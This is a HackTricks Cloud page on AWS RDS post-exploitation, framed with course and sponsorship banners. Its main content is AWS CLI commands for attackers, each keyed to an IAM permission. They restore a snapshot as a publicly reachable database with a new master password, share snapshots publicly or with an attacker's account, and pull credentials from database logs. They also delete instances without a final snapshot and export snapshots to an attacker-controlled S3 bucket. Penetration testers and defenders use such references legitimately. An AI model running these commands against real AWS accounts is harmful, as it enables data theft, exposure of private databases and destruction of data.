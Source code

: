 # AWS - RDS Post Exploitation

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## RDS

For more information check:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

If the attacker has enough permissions, he could make a **DB publicly accessible** by creating a snapshot of the DB, and then a publicly accessible DB from the snapshot.

```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
    --db-instance-identifier <db-id> \
    --db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
    --db-instance-identifier "new-db-not-malicious" \
    --db-snapshot-identifier <scapshotId> \
    --db-subnet-group-name <db subnet group> \
    --publicly-accessible \
    --vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
    --db-instance-identifier "new-db-not-malicious" \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# Connect to the new DB after a few mins
```

### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

An attacker with these permissions could **create an snapshot of a DB** and make it **publicly** **available**. Then, he could just create in his own account a DB from that snapshot.

If the attacker **doesn't have the `rds:CreateDBSnapshot`**, he still could make **other** created snapshots **public**.

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

An attacker with the `rds:DownloadDBLogFilePortion` permission can **download portions of an RDS instance's log files**. If sensitive data or access credentials are accidentally logged, the attacker could potentially use this information to escalate their privileges or perform unauthorized actions.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**Potential Impact**: Access to sensitive information or unauthorized actions using leaked credentials.

### `rds:DeleteDBInstance`

An attacker with these permissions can **DoS existing RDS instances**.

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**Potential impact**: Deletion of existing RDS instances, and potential loss of data.

### `rds:StartExportTask`

{% hint style="info" %}
TODO: Test
{% endhint %}

An attacker with this permission can **export an RDS instance snapshot to an S3 bucket**. If the attacker has control over the destination S3 bucket, they can potentially access sensitive data within the exported snapshot.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**Potential impact**: Access to sensitive data in the exported snapshot.

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
